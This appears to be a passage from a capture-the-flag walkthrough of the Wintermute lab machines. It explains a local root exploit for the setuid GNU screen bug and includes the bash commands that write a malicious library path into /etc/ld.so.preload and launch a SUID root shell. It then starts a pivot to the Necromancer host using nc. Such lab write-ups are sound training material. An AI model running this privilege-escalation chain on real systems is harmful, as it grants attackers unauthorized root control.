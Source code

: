 The `__attribute__ ((__constructor__))` line tells `gcc` that the function is a constructor and should be immediately executed upon load.

In the following lines of code we see that it changes the ownership of the executable it created to **root** and makes it **SUID-Enabled**. In the end it will also call `unlink()` on `ld.so.preload`, effectively deleting it. After writing this **C** code to libhax.c, it compiles the library and deletes the source file.

Lastly it exploits the `screen` bug to write to `ld.so.preload` the `libhax.so` library and then execute our `rootshell`.

```bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
In the end, we will have a **SUID** binary that when run, will execute `/bin/sh` as **root**.

Running this script in `/tmp` results in the executable `/tmp/rootshell` which due to the script will automatically run.

And we have **root**

![](/assets/images/wintermute/14.png)

In the `/root` subdirectory we find a very interesting note.

![](/assets/images/wintermute/15.png)

# Necromancer
---

Since we can only talk to Necromancer through Straylight, and Straylight has no `nmap` we will use `nc` to do the portscan.

First let's find the alive hosts with a more traditional way with
